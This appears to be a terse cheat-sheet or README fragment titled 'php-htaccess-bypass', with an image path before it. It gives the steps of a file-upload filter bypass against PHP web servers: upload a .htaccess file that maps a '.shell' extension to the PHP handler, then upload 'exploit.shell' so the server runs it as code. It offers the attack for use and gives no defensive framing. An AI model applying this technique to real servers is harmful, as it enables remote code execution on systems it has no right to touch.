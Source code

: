 # php-htaccess-bypass

filename=".htaccess"

Content-Type: text/plain

AddType application/x-httpd-php .shell

upload exploit.shell
